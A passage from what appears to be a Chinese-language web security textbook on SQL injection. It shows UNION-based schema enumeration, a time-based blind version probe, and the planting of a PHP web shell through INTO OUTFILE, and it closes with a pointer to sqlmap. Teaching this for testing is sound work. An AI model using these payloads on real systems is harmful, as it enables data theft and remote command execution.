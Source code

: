 ```
SELECT Title, Body FROM Emails
WHERE Username='vickie'
UNION SELECT 1, table_name FROM information_schema.tables
```

这个查询将显示指定表的列名。在这种情况下，查询将列出 `Users` 表中的列：

```
SELECT Title, Body FROM Emails
WHERE Username='vickie'
UNION SELECT 1, column_name FROM information_schema.columns
WHERE table_name = 'Users'
```

所有这些技术在经典攻击和盲注攻击中都可以使用。你只需要找到不同的方式将这些命令嵌入到你构造的查询中。例如，你可以使用基于时间的技术来确定数据库的版本，方法如下：

```
SELECT * FROM PremiumUsers WHERE Id='2'
UNION SELECT IF(SUBSTR(@@version, 1, 1) = '1', SLEEP(10), 0); --
```

在了解了数据库结构之后，开始针对特定的表进行数据提取，获取你感兴趣的信息。

### 获取 Web Shell

提升 SQL 注入攻击的一种方法是尝试在服务器上获得 Web shell。假设我们正在攻击一个 PHP 应用程序。以下这段 PHP 代码会获取名为 `cmd` 的请求参数，并将其作为系统命令执行：

```
<? system($_REQUEST['cmd']); ?>
```

你可以利用 SQL 注入漏洞，通过 `INTO OUTFILE` 将这段 PHP 代码上传到服务器上你可以访问的位置。例如，你可以将不存在用户的密码和 PHP 代码 `<? system($_REQUEST['cmd']); ?>` 写入位于目标服务器 */var/www/html/shell.php* 的文件中：

```
SELECT Password FROM Users WHERE Username='abc'
UNION SELECT "<? system($_REQUEST['cmd']); ?>"
INTO OUTFILE "/var/www/html/shell.php"
```

由于不存在的用户的密码为空，因此实际上你是在上传 *shell.php* 文件中的 PHP 脚本。然后，你可以直接访问 *shell.php* 文件并执行任何你希望的命令：

```
http://www.example.com/shell.php?cmd=`COMMAND`
```

## 自动化 SQL 注入攻击

手动测试 SQL 注入是不可扩展的。我建议使用工具帮助你自动化本章中描述的整个过程，从 SQL 注入发现到利用。例如，sqlmap（[`sqlmap.org/`](http://sqlmap.org/)）是一个用 Python 编写的工具，自动化了检测和利用 SQL 注入漏洞的过程。sqlmap 的完整教程超出了本书的范围，但你可以在 [`github.com/sqlmapproject/sqlmap/wiki/`](https://github.com/sqlmapproject/sqlmap/wiki/) 找到它的文档。

在开始用 sqlmap 自动化攻击之前，确保你理解它的每种技术，以便优化你的攻击。它使用的大部分技术将在本章中介绍。你可以将 sqlmap 作为独立工具使用，或者将其与正在使用的测试代理集成。例如，你可以通过安装 SQLiPy Burp 插件，将 sqlmap 集成到 Burp 中。

## 发现你的第一个 SQL 注入！
